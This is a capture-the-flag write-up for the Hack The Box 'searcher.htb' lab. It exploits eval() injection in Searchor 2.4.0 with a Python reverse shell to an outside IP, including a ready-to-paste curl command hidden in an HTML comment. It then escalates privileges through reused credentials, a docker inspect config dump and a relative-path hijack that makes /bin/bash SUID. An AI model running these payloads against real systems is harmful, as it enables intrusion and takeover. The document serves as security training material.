

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.208 searcher.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* web server redirect host `searcher.htb`


# Foothold

## Command Injection

webapp is using "Searchor" version 2.4.0 python application -> https://github.com/ArjunSharda/Searchor

There is [bug in Searchor version 2.4.0](https://github.com/ArjunSharda/Searchor/pull/130) where it is inputting user input direct `eval()` function -> https://github.com/ArjunSharda/Searchor/blob/b5e67ecc98f11bc4d66acff8e8d3a942bb770625/src/searchor/main.py#L32


Here we can inject python reverse shell in `eval()` function and get code execution -> `', exec("<PYTHON_REVERSE_SHELL>"))#`

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.17',4141));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('/bin/sh')"))#
```

<!--Copy/Paste

curl 'http://searcher.htb/search' -X POST --data-raw 'engine=Accuweather&query=%27%2C+exec%28%22import+socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2710.10.14.17%27%2C4141%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B+os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport+pty%3B+pty.spawn%28%27%2Fbin%2Fbash%27%29%22%29%29%23'

-->



# Privesc

## Docker inspect config dump

* There is `.git` directory in `/var/www/app` which contain some creds for "gitea"

**Creds:** `cody:jh1usoih2bkjaspwe92`



* "gitea" instance running in localhost on port 



* Same password work for user "svc" `sudo` and that user can run `/usr/bin/python3 /opt/scripts/system-checkup.py *` with `sudo`



* We can not read `/opt/scripts/system-checkup.py`, But there is `.git` directory in `/opt/scripts`, this means these script are also available on "gitea".



* Open a tunnel with `socat` on port 3000
```bash
./socat TCP-LISTEN:13000,fork TCP:127.0.0.1:3000 &
```



* There is no "scripts" repository in "cody" account
* THere is a another user "administrator" which has no public repository.

Running the script



There is quite a few options in the script, But "docker-inspect" looks interesting.

It is executing docker inspect command -> https://docs.docker.com/engine/reference/commandline/inspect/

And with that we can view docker container config -> https://docs.docker.com/engine/reference/commandline/inspect/#get-a-subsection-in-json-format
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```



There is a gitea database password in the config, Which is re-used in "administrator" gitea login.

**Creds:** `administrator:yuiu1hoiu4i5ho1uh`




from `system-checkup.py` source code,

```py
... [snip] ...

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output

... [snip] ...

    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)

... [snip] ...

```

`full-checkup` action is running `./full-checkup.sh` from CWD and if we run it from different directory instead of `/opt/scripts` it will not found `full-checkup.sh` as it is only looking it in CWD.

We can create a `full-checkup.sh` script in a directory other then `/opt/scripts` and running the script execute `full-checkup.sh`.
```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash\nls -la /bin/bash' > full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```



